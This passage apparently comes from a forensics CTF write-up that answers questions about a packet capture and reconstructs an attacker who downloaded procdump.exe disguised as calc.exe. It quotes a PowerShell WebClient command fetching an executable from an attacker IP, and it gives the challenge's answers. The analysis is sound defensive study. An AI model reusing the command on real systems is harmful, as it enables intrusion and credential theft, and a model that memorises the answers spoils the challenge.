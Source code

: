 ##### - Answer: `00000`

<br>

#### Q15: Did it Work? (yay, nay)
```
***
```
> [!TIP]
> Based on the Size
- Empty File == No Dump == nay

##### - Answer: `nay`

<br>

#### Q16: The Attacker downloaded a file to the Victim's Machine can you tell from where did he download it? (<IP>:<PORT>)
```
***.***.*.*:****
```
- Packet no.6584 `(New-Object System.Net.WebClient).DownloadFile('http://192.168.1.2:9000/file2.exe', 'C:\windows\temp\calc.exe')` 

#### - Answer: `192.168.1.2:9000`

<br>

#### Q17: This file seems to be a calculator!!. hmm...? I think it's not a calculator. what is it? 
```
********.***
```
> [!TIP]
> Invistigate the real filename
- There are Two Ways to Answer this question. i will use a the first way in this question, and there is a similar one coming soon.
- fiter: `http and (ip.addr==192.168.20.134 or ip.addr==192.168.1.2)`
- Extract the File from the pcap to calc.exe
![image](https://github.com/user-attachments/assets/b52b35c9-f05d-4ea0-b5e5-52233afe107a)

- Media Type -> Right Click -> Export Packet Bytes -> calc.exe -> save
![image](https://github.com/user-attachments/assets/9ae68542-123a-4c36-8552-7fc9846c35f2)

![image](https://github.com/user-attachments/assets/96486c64-0981-4afb-a17f-c901ce98d01e)

- See File Details -> Original Filename

![image](https://github.com/user-attachments/assets/b81b7416-a0a1-4fdc-ad5d-c4e468a70e3e)

##### - Answer: `procdump.exe`

<br>
